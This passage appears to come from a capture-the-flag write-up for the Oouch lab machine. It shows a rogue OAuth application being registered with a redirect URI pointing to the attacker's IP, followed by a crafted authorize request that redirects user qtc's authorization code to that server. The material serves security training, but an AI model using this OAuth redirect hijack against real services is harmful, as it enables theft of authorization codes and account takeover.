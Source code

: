 It asks for credentials and the ones from the notes work and forwards to a page where a new application can be registered:

![Register a new application](oouch_web-9.png)

Registering a new application:
```
Name: NewApplication1
Client id: tTdeI8itA27onSiDT0EjbHgA6U9XFmtAICQK8MdT
Client secret: Ns3Eor3WI6zFQ1LaYidD78hsFtBh0zYTx9lGNy9zbISZXz6Qi5IAZCafFyfjRn5zAaSU4cACpgr3CWrLf766wNee2hnvk0HPQlffsF6zTa9BTqHS7UBnGMkTC1VQuFPa
Client type: Public
Authorization grant type: Authorization code
Redirect uris: http://10.10.14.11/token
```

Authorizing user _qtc_ to our application with _consumer.oouch.htb:5000/oauth/connect_:
```
- Change POST to GET method
- Change client_id parameter to the new one
- Change redirect_uri to own server
```
```
GET /oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&scope=read&redirect_uri=http://10.10.14.11/token&scope=read&client_id=tTdeI8itA27onSiDT0EjbHgA6U9XFmtAICQK8MdT&state=&response_type=code&allow=Authorize HTTP/1.1
Host: authorization.oouch.htb:8000
(...)
```
